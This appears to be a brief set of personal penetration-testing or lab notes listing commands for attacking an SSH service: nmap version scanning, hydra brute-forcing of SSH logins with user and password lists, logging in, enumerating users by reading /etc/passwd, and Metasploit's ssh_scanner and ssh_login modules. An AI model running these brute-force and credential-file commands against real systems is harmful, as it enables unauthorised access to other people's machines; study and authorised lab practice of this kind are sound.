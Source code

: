 - ifconfig
- nmap -sV target_ip
- ssh port open 
-  hydra -L /users.txt -P /password.txt IP -t 4 ssh
- ssh IP || ssh user@IP
- whoami || groups user || car /etc/*issue || cat /etc/passwd
-

another way with metasploit
msfconsole 
ssh_scanner 
ssh_login

